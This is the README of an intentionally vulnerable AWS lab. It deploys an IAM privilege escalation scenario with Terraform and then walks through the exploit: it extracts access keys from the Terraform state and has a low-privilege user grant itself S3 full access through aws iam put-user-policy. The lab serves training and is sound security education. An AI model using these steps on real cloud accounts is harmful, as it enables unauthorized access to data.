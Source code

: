 # AWS IAM Privilege Escalation Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the AWS IAM privilege escalation vulnerability environment.

After building the environment with Terraform, The IAM privilege elevation vulnerability can be used to access services that you would not otherwise have permission to access.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/identity_and_access_management/privilege_escalation
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After building the scenario, use the following command to view the access_key_id and secret_access_key of the low privilege account.

```shell
apt-get install jq -y
terraform state pull | jq '.resources[] | select(.type == "aws_iam_access_key") | .instances[0].attributes'
```

![img](../../../images/1652690733.png)

## Vulnerability Utilization

First configure the access_key_id and secret_access_key of the low privilege account.

```shell
aws configure
```

After the configuration, here is an example of S3 service, try to run the following command, you can see the return message shows that access is denied.

```shell
aws s3 ls
```

![img](../../../images/1652690932.png)

Get the privileges held by the current user.

```shell
aws iam get-user
aws iam list-user-policies --user-name huoxian_terraform_test
aws iam get-user-policy --user-name huoxian_terraform_test --policy-name IAMFullAccess
```

![img](../../../images/1652692179.png)

You can see that the current user has all the privileges of IAM, which means that we can give S3 privileges to the current user, thus enabling the current user to access S3 service resources.

Edit policy file

```shell
vim AmazonS3FullAccess.json
```

The contents of the policy file are as follows:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:*",
                "s3-object-lambda:*"
            ],
            "Resource": "*"
        }
    ]
}
```

PUT policy file

```shell
aws iam put-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess --policy-document file://AmazonS3FullAccess.json
```

Try again to get the S3 service resource, you can see that it has been obtained, which means that the policy file is in effect, so that the IAM privilege elevation is achieved.

```shell
aws s3 ls
```

![img](../../../images/1652692416.png)

## Destroy the environment

```shell
aws iam delete-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess
terraform destroy
```
